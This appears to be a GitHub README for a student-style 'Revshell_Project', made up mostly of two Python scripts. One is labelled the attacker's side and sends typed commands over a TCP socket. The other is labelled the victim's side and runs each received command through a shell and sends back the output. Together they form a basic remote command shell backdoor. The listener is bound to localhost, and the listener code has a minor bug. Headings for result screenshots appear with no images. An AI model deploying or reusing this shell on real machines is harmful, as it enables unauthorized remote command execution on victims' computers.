



# Revshell_Project
## script from attacker's side

<p>&nbsp;</p>

```bash
import socket
import subprocess

ip = input("enter ip address")
port = int(input("enter the port number"))

try:
    # we going to create a tcp ipv4 socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    cmd = input("$")  # taking input
    while cmd != 'quit':
        # send to vitim
        s.send(cmd.encode())

        # receiving 2048 bytes
        result = s.recv(2048).decode()
        print(result)
        cmd = input("$")
    s.close()

except:
    print("something error has occurred")
```
<p>&nbsp;</p>
<p>&nbsp;</p>

## script running on vitim's side

```
bash


import socket
import subprocess

#listening for ipv4 and tcp
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('127.0.0.1', 1234))

#max 2 connections
s.listen(2)

client, addr = s.accept()
cmd = client.recv(2048).decode()

while cmd != 'quit':
    print(cmd)
    cmd = str(cmd)

    result = subprocess.check_output(cmd, shell=True)
    print(result)
    client.send(result)
    cmd = client.recv(2048).decode()
cmd.close()
s.close()
```

<p>&nbsp;</p>

### shell created from attacker's side


<p>&nbsp;</p>

### command running on the victim's computer


<p>&nbsp;</p>

### ipconfig 

          
